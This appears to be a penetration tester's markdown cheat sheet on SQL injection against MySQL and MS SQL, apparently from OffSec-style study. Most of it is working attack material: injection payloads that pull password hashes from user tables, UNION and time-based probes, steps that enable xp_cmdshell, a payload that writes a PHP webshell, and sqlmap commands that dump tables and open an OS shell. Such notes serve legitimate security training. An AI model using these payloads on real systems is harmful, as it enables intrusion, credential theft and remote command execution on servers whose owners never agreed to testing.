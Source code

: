 # SQL Injection

[OWASP SQL Injection Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)

## Enumerate MySQL

* Use built-in on Kali `mysql`
* -u username
* -p 'password'
* -h host addr
* -P port

```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306
```

```sql
-- MySQL
select system_user();
select version(); -- MySQL accepts both version() and @@version.
show databases;
show tables from mysql;
select * from mysql.user where User = 'username' limit 1;
select user, authentication_string from mysql.user where user = 'username';
...
| username | $A$005$?qvorPp8#lTKH1j54xuw4C5VsXe5IAa1cFUYdQMiBxQVEzZG9XWd/e6
```

## Enumerate MS SQL

* Use built-in on Windows `sqlcmd`
* Use built-in on Kali `impacket-mssqlclient`
* Default DBs "master, tempdb, model, and msdb"

```bash
# kali connect to MS SQL
impacket-mssqlclient Administrator:Password@Database-IP -windows-auth
```

```mssql
-- MS SQL
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM dbname.information_schema.tables;
SELECT TOP 1 * FROM master.dbo.sysusers; -- LIMIT 1
```

## Manual SQL Injection

Error-based SQLi

* Use `'` to close the string
* Use `' OR 1=1` to ignore the first parameter
* Use `' OR 1=1 -- //` comment and slashes truncate
* Use `' OR 1=1 IN (select version()) -- //` as short hand in where clause

```plain
' or 1=1 in (select user()) -- //
' or 1=1 in (select version()) -- //
' or 1=1 in (select * from users) -- //
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

UNION-based SQLi

* Use `UNION SELECT ...` to concatinate to queries
* Preconditions:
* UNION query has same number of columns as the original query.
  * Use `' ORDER BY 1 -- //` identify the number of columns
* UNION query data types are compatible between each column.
  * Use `null` to test for nullable types

```plain
-- MySQL Syntax
' UNION SELECT null, user(), database(), version() -- //
' UNION SELECT null, table_name, column_name, table_schema, null FROM information_schema.columns WHERE table_schema=database() -- //
' UNION SELECT null, username, password, description, null FROM users -- //
```

Bolean- and Time-based attacks

* Use AND which always is TRUE
* Use IF to delay the response
* *Should* be automated with `sqlmap`

```plain
' AND 1=1 -- //
' AND IF (1=1, sleep(3),'false') -- //
```

## Exploit MS SQL Injections

Exploit MS SQL Databases with `xp_cmdshell`

```sql
-- Enable shell command execution withxp_commshell
> impacket-mssqlclient Administrator:Password@Database-IP -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE; -- apply changes
```

```sql
-- Execute whoami command and read the output row
EXECUTE xp_cmdshell 'whoami';
nt service\mssql$sqlexpress
```

## Exploit My SQL Injections

* Exploit My SQL Databases with `select into file`

The [SELECT ... INTO OUTFILE](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) writes the selected rows to a file. Column and line terminators can be specified to produce a specific output format.

```sql
-- Write a PHP webshell to disc
UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

```sql
-- direct value to file output
SELECT * FROM (VALUES ROW(1,2,3),ROW(4,5,6),ROW(7,8,9)) AS t
    INTO OUTFILE '/tmp/select-values.txt';

-- selected column table output
SELECT a,b,a+b INTO OUTFILE '/tmp/result.txt'
  FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"'
  LINES TERMINATED BY '\n'
  FROM test_table;

-- table output
TABLE employees ORDER BY lname LIMIT 1000
    INTO OUTFILE '/tmp/employee_data_1.txt'
    FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"', ESCAPED BY '\'
    LINES TERMINATED BY '\n';
```

## Automate SQL Injection Attacks

* Automate SQL Injection with `sqlmap`
* -u URL
* -p parameter to scan
* --time-sec 1
* --tables enumerate tables
* --dump DBMS database table entries
* --dump-all DBMS databases table entries
* -r load a file with a HTTP request e.g. BURP
* --os-shell provides us with a full interactive shell
* --web-root defines where to upload the webshell e.g. "/var/www/html/tmp"
* --flush-session reset seesion data

```bash
sudo sqlmap --update
sqlmap -hh
# time based blind SQLi, pe patient
sqlmap -u http://target.com/db.php?user=1 -p user
sqlmap -u http://target.com/db.php?user=1 -p user --time-sec 1 --users
sqlmap -u http://target.com/db.php?user=1 -p user --time-sec 1 --tables 
# dump table 'users' in database 'offsec'
sqlmap -u http://target.com/db.php?user=1 -p user --flush-session --time-sec 1 --dump -T users -D offsec
# install a webshell for [1] ASP[2] ASPX [3] JSP [4] PHP
sqlmap -r post-request.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```
